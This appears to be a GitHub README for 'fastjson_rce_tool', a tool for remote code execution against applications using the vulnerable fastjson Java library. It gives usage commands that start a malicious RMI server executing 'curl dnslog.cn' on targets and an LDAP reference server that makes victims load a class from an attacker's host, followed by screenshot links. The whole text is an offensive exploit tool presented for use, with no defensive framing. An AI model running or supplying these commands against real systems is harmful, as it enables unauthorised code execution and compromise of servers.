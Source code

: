 # fastjson_rce_tool

rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl dnslog.cn"


ladp:
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

示例：

![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

